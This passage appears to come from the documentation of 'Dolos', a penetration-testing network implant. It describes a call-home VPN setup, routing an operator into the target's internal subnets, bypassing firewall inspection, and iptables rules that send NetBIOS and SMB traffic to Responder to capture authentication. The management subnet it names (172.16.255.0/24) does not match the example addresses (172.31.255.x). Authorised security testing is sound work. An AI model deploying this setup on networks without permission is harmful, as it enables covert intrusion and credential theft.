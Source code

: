 ```
The tool is designed to automatically route any traffic in the reserved ranges 10.0.0.0/8, 192.168.0.0/16, and 172.16.0.0/12 to the attacking bridge interface and onto the internal target network with the exception of 172.16.255.0/24, which is used to create a management subnet for the attack. You should use the 172.16.255.0/24 as the network range for your VPN or Zerotier config so that the Dolos device receives an IP in this range when it calls home. Then, when you connect your laptop/VM to the same VPN/Zerotier network, it will also receive an address in this range and be able to reach the Dolos device and use it to route traffic to other reserved ranges. For example:

Your enp1s0:	192.168.1.5/24

Your Tun0:	172.31.255.3

Dolos Tun0:	172.31.255.2

Target Range:	10.100.0.0/16

Target DNS:	10.100.100.53

You ssh into root@172.31.255.2, check the attack, and identify that the target network is utilizing the 10.100.0.0/16 range. To start interacting with the target range from your device, run:

```
ip route add 10.100.0.0/16 via 172.31.255.2 dev tun0
```

You can then add 'server 10.100.100.53' to your /etc/resolv.conf and your laptop/VM will have access 10.100.0.0/16 subnet.

##### WARNING:

If the target network is using the same range as your default route, you may drop your own network connection. In this example, if your target network was also using 192.168.1.0/24, you would want to connect your enp1s0 to some other network that is not using this range before proceeding.

#### Give the Dolos Device Internet Access

By default, the tool does not set the bridge interface as the default route. This is to avoid creating traffic that will traverse the network perimeter where it may be inspected by the firewall. To allow outbound Internet traffic from the bridge, set it as the default route. There is a button in the web UI to do this. You can also run the following commands manually:

```
#delete any existing default route. This may error out. Don't worry if it does
ip route del default
ip route add default via 169.254.66.55 dev mibr
```

#### Packet Capture / Relay

Because of the NAT, you will not be able to just bind an interface/port and start mangling traffic. You will need to add iptables rules to let the Dolos device know which protocols you want to take control of. For example, if you want to use Responder.py to spoof NetBIOS and capture SMB authentication requests, you would need the following iptables rules:

```
#Any NetBIOS Name Resolution request
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 137 -j DNAT --to 169.254.66.77:137
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 137 -j DNAT --to 169.254.66.77:137
#Any NetBIOS session packet
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 139 -j DNAT --to 169.254.66.77:139
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 138 -j DNAT --to 169.254.66.77:138
#Any SMB packet
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 445 -j DNAT --to 169.254.66.77:445
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 445 -j DNAT --to 169.254.66.77:445